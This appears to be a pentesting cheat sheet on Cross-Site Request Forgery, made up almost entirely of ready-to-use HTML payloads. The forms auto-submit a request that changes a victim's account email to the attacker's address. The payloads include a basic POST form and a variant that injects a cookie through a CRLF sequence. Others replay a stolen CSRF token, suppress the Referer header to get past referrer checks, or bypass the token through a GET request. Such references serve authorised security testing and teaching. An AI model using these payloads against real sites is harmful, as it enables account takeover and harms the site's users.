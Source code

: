```yaml
---
title: Cross-Site Request Forgery (CSRF)
desc: 
tags: [Burp, Cross, CSRF, Site, Web]
alts: []
render_with_liquid: false
---
```


## 1. POST Request

The payloads need to be entered in the post form like comments, profile in the target web page.  
They force to update the victim account's email address to your email address.

1. **Basic**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

2. **Cookie Injection**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <img src="https://vulnerable.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
    ```

3. **Use the Other CSRF Token**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

4. **Referrer Validation**

    ```html
    <meta name="referrer" content="no-referrer">

    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        // For referrer validation....
        history.pushState("", "", "/?vulnerable.com");
        
        document.forms[0].submit();
    </script>
    ```

<br />

## 2. GET Request (Bypass CSRF Token)

```html
<!-- ex. https://attacker.com/exploit -->

<form method="GET" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
